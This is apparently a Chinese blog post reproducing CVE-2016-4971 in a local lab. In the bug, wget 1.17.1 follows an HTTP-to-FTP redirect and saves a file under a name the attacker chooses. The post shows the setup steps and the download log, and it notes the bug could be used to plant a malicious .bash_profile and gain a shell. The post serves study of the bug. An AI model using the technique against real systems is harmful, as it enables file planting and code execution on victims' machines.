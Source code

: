 ```yaml
---
layout: post
title: CVE-2016-4971 wget 
excerpt: "wget 任意文件上传漏洞"
categories: [漏洞复现]
comments: true
---
```


wget 是一个从网络上自动下载文件的工具，支持通过 HTTP、HTTPS、FTP 三种最常见的 TCP/IP 协议。

漏洞发生在将 HTTP 服务重定向到 FTP 服务时，wget 会默认选择相信 HTTP 服务器，并且直接使用重定向的 FTP URL，而没有对其进行二次验证或对下载文件名进行适当的处理。如果攻击者提供了一个恶意的 URL，通过这种重定向可能达到任意文件的上传的问题，并且文件名和文件内容也是任意的。

**大概就是下载了http://127.0.0.1/aaa.txt,但是在桌面上的名称是bbb.txt**,感觉没什么鸟用

```
推荐使用的环境	备注
操作系统	Ubuntu 16.04	体系结构：64 位
漏洞软件	wget	版本号：1.17.1
所需软件	vsftpd	版本号：3.0.3
```
首先安装ftp服务器
```
apt-get install vsftpd
```
修改其配置文件 /etc/vsftpd.conf，使匿名用户也可以访问：
```
# Allow anonymous FTP? (Disabled by default).
anonymous_enable=YES
```
然后我们需要一个 HTTP 服务，这里选择使用 Flask：
```
pip install flask
```
创建两个文件 noharm.txt 和 harm.txt，假设前者是我们请求的正常文件，后者是重定位后的恶意文件，如下：
```
$ ls
harm.txt  httpServer.py  noharm.txt
$ cat noharm.txt
"hello world"
$ cat harm.txt
"you've been hacked"
$ sudo cp harm.txt /srv/ftp
$ sudo python httpServer.py
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)
```
该系统上的 wget 虽然是 1.17.1，但估计已经打过补丁了。我们直接编译安装原始的版本：
```
$ sudo apt-get install libneon27-gnutls-dev
$ wget https://ftp.gnu.org/gnu/wget/wget-1.17.1.tar.gz
$ tar zxvf wget-1.17.1.tar.gz
$ cd wget-1.17.1
$ ./configure
$ make && sudo make install
```
发出请求：
```
$ wget 0.0.0.0/noharm.txt
--2018-01-29 16:32:15--  http://0.0.0.0/noharm.txt
Connecting to 0.0.0.0:80... connected.
HTTP request sent, awaiting response... 302 FOUND
Location: ftp://127.0.0.1/harm.txt [following]
--2018-01-29 16:32:15--  ftp://127.0.0.1/harm.txt
           => ‘harm.txt’
Connecting to 127.0.0.1:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> SIZE harm.txt ... 21
==> PASV ... done.    ==> RETR harm.txt ... done.
Length: 21 (unauthoritative)

harm.txt                      100%[==============================================>]      21  --.-KB/s    in 0s

2018-01-29 16:32:15 (3.41 MB/s) - ‘harm.txt’ saved [21]

$ cat harm.txt
"you've been hacked"
```
**意思就是下载了http://127.0.0.1/aaa.txt,但是在桌面上的名称是bbb.txt**

如果某个人在自己的 home 目录下执行了 wget 请求，并且该目录下没有 .bash_profile，那么利用该漏洞，攻击这就可以将恶意的 .bash_profile 保存到这个人的 home 下。下一次启动时，恶意代码被执行，获得 shell。

感觉没什么鸟用